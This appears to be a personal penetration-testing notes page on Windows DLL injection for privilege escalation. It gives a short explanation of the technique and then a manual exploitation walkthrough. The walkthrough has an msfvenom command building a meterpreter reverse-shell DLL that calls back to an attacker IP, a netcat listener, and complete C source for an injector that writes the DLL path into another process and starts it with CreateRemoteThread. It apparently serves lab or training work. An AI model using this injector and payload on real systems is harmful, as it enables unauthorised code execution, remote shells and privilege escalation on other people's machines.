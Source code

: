 ```yaml
---
title: DLL Injection
category: win privesc
order: 1
---
```


[WPE-03 - DLL Injection](https://pentestlab.blog/2017/04/04/dll-injection/)

DLL injection is a technique which allows an attacker to run arbitrary code in the context of the address space of another process. If this process is running with excessive privileges then it could be abused by an attacker in order to execute malicious code in the form of a DLL file in order to elevate privileges.

Specifically this technique follows the steps below:

1.  A DLL needs to be dropped into the disk
2.  The “CreateRemoteThread” calls the “LoadLibrary”
3.  The reflective loader function will try to find the Process Environment Block (PEB) of the target process using the appropriate CPU register and from that will try to find the address in memory of kernel32dll and any other required libraries.
4.  Discovery of the memory addresses of required API functions such as LoadLibraryA, GetProcAddress, and VirtualAlloc.
5.  The functions above will be used to properly load the DLL into memory and call its entry point DllMain which will execute the DLL.

# Manual exploitation
---

## 1 create dll
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f dll -o evil.dll
```
## 2 set up listener
```
nc -nlvp 4444
```

## 3 compile code :
```
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\users\\nop\\evil.dll");

	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle);

	return 0;
}
```
## 4 find a process id to inject
```
tasklist
```

## 5 transfer and run  dll-injector.exe
```
dll-injector.exe <PID>
```

## 6 TODO
cambiar el codigo para pasarle por parametro el path al dll
